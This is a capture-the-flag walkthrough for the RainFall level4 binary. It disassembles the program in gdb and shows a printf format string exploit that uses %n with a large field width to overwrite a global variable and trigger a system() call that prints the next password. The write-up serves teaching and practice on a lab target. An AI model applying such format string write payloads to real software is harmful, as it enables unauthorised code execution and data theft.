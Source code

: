 # level4

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

As in the previous level, `main` does nothing but a call to function `n`.

```gdb
gdb-peda$ disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   ebp
   0x08048458 <+1>:     mov    ebp,esp
   0x0804845a <+3>:     sub    esp,0x218                     ; 536 bytes of stack space reclaimed
   0x08048460 <+9>:     mov    eax,ds:0x8049804              ; eax = stdin
   0x08048465 <+14>:    mov    DWORD PTR [esp+0x8],eax       ; push stdin to stack
   0x08048469 <+18>:    mov    DWORD PTR [esp+0x4],0x200     ; push 512 to stack
   0x08048471 <+26>:    lea    eax,[ebp-0x208]               ; load buffer address in eax
   0x08048477 <+32>:    mov    DWORD PTR [esp],eax           ; push eax to stack
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>         ; call fgets
   0x0804847f <+40>:    lea    eax,[ebp-0x208]               ; load buffer address in eax
   0x08048485 <+46>:    mov    DWORD PTR [esp],eax           ; push eax to stack
   0x08048488 <+49>:    call   0x8048444 <p>                 ; call p
   0x0804848d <+54>:    mov    eax,ds:0x8049810              ; eax = data segment variable (that equals 0 here)
   0x08048492 <+59>:    cmp    eax,0x1025544                 ; compare eax to 0x1025544 (16930116 in decimal)
   0x08048497 <+64>:    jne    0x80484a5 <n+78>              ; jump to leave instruction if not equal
   0x08048499 <+66>:    mov    DWORD PTR [esp],0x8048590     ; push address 0x8048590 to stack (contains "/bin/cat /home/user/level5/.pass")
   0x080484a0 <+73>:    call   0x8048360 <system@plt>        ; call system
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
```

Functions called : `fgets`, `system`, and `p`

```gdb
gdb-peda$ disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18                     ; 23 bytes of stack space reclaimed
   0x0804844a <+6>:     mov    eax,DWORD PTR [ebp+0x8]      ; copy buffer address (argument from `n` function) to eax
   0x0804844d <+9>:     mov    DWORD PTR [esp],eax          ; push eax to stack
   0x08048450 <+12>:    call   0x8048340 <printf@plt>       ; call printf
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```
Function called : `printf`

Actually, the behaviour of this program is similar to the previous one. It call `fgets` to read from stdin, print the buffer thanks to `printf`, then assign the value of the address `0x8049810` to `eax` and compare it to an arbitrary value (0x1025544) to determine if the function will leave or execute a call to the `system` function before.

We dump the content of the address `0x8048590`, used as the parameter of `system`, using gdb.

```gdb
gdb-peda$ x/s 0x8048590
0x8048590: "/bin/cat /home/user/level5/.pass"
```

So, what we have to do is to write the value '0x1025544' ('16930116' in decimal) to the address `0x8049810`, using the format string vulnerability of `printf`. They are two main differences with the previous level :
- The buffer is declared and printed in two differents functions (`n` and `p`).
- The value we have to write is way larger than the buffer size.

## Exploit

We first look for the offset in the stack where we will retrieve the content of our buffer. This offset will be further on the stack than in the previous level, due to the buffer declared in `n` and the call to `printf` done in `p`.

```console
level4@RainFall:~$ perl -e 'print "AAAA %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x\n"' > /tmp/level4
level4@RainFall:~$ cat /tmp/level4 | ./level4
AAAA b7ff26b0 bffff784 b7fd0ff4 00000000 00000000 bffff748 0804848d bffff540 00000200 b7fd1ac0 b7ff37d0 41414141
```

Knowing that the 12th argument is the beginning of our buffer, we have to find a way to make `printf` write 16930116 byt1es before using the `%n` conversion. To do so, we use the field width modifier of `printf` on the last `%x` conversion, as we did previously on each one to print the stack content with an eight characters padding.

But before, we prepare our string without this padding to write its length to `eax` and get it with gdb.

```console
level4@RainFall:~$ perl -e 'print "\x10\x98\x04\x08%x%x%x%x%x%x%x%x%x%x%x%n"' > /tmp/level4
level4@RainFall:~$ gdb ./level4
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
gdb-peda$ b *0x08048492
Breakpoint 1 at 0x8048492
gdb-peda$ run < /tmp/level4
Breakpoint 1, 0x08048492 in n ()
gdb-peda$ x/s $eax
0x48:	 <Address 0x48 out of bounds>
```

Our current string length is 0x48, or 72 in decimal, we want to write the value 16930116, and the `%x` argument we use for the padding contains the value 'b7ff37d0' which is 8 bytes long to print.

16930116 - 72 + 8 = 16930052 bytes of padding needed. Let's do it !

```console
level4@RainFall:~$ perl -e 'print "\x10\x98\x04\x08%x%x%x%x%x%x%x%x%x%x%16930052x%n"' > /tmp/level4
level4@RainFall:~$ cat /tmp/level4 | ./level4
...
[hit return, then wait for printf to write the whole string, which is very long]
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
